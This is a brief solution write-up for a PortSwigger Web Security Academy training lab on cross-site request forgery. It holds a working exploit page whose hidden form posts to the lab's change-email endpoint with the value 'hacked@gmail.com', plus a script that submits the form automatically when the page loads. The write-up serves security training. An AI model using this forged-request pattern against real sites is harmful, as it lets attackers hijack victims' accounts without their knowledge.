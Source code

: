 # [Lab: CSRF vulnerability with no defenses](https://portswigger.net/web-security/csrf/lab-no-defenses)

## Lab

This lab's email change functionality is vulnerable to CSRF.

To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.

You can log in to your own account using the following credentials: `wiener:peter`

## Analysis

No csrf token

## Solution

```html
<html>
    <body>
        <form action="https://id.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="hacked@gmail.com" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```
